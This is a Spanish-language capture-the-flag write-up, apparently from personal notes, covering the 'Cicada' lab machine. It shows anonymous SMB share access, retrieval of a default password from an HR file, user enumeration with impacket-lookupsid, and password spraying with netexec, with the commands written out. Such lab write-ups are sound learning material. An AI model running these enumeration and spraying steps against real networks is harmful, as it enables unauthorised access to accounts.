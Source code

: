 ![[Cicada24.png]]
Ahora solamente guardamos y listo

------
# Nos conectamos [[smb]] y obtenemos una contraseña

```smb
smbclient -L //10.10.11.35 -N -p 445                    /Listamos los recursos
smbclient //10.10.11.35/HR -N -p 445                    /Entramos a la carpta HR
get "Notice from HR.txt"                                /Descargamos el archivo
```

![[Cicada10.png]]
![[Cicada9.png]]

Ahora con [[cat]] vamos a abrirlo usando el comando `cat "Notice from HR.txt"`

![[Cicada11.png]]
Obtenemos esta contraseña: Cicada$M6Corpb*@Lp#nZp!8

--------
# [[impacket-lookupsid]]

Asumimos que nos podiamos conectar como guest, cuando nos pudimos conectar a smbclient anteriormente sin proporcionar credenciales. Asi que para enumerar usuarios,grupos, etc vamos a usar la herramienta [[impacket-lookupsid]] con el comando `impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass`


![[Cicada12.png]]
Ahora le vamos a aplicar una regex, para enviar solamente el nombre de los usuarios a un archivo que se va a llamar user.txt

``impacket-lookupsid 'cicada.htb/guest'@10.10.11.35 -no-pass | grep -i "sidtypeuser" | sed 's/.*\\//' | sed 's/ .*//' > users.txt``
	La regex: la primera seria para sacar todo lo que esta antes de la primera \ y la segunda es para sacar todo lo que esta despues del e

![[Cicada13.png]]

----
# Fuerza bruta con [[netexec]]

Vamos a hacer fuerza bruta para encontrar que usuario es el correcto
```
netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --no-bruteforce
```

![[Cicada15.png]]
Nos da el usuario *michael.wrightson*
